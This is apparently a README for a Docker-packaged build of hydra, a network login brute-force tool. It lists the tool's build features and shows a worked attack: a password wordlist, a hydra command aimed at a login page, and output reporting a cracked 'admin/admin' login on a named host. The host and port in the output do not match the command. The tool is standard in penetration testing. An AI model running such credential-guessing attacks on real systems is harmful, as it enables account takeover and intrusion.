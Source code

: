 hydra
=====

A very fast network logon cracker which support many different services.

- [x] openssl
- [x] idn
- [x] curses
- [x] pcre
- [x] Postgres
- [x] SVN
- [ ] firebird
- [x] MYSQL client
- [ ] AFP
- [ ] NCP
- [ ] SAP/R3
- [x] libssh
- [ ] Oracle
- [ ] GUI req's
- [x] Android specialities
- [x] secure compile option support in gcc


```
$ docker run --rm -it -v `pwd`:/work vimagick/hydra

>>> cat passwd.txt
    123456
    admin
    ...

>>> hydra -l admin -P passwd.txt -o hacked.txt http://www.target.com/login.php
    [DATA] max 1 task per 1 server, overall 64 tasks, 3 login try (l:1/p:1), ~0 tries per task
    [DATA] attacking service http-get on port 2812
    [2812][http-get] host: ss.datageek.info   login: admin   password: admin
    1 of 1 target successfully completed, 1 valid password found

>>> cat hacked.txt
    [2812][http-get] host: ss.datageek.info   login: admin   password: admin
```
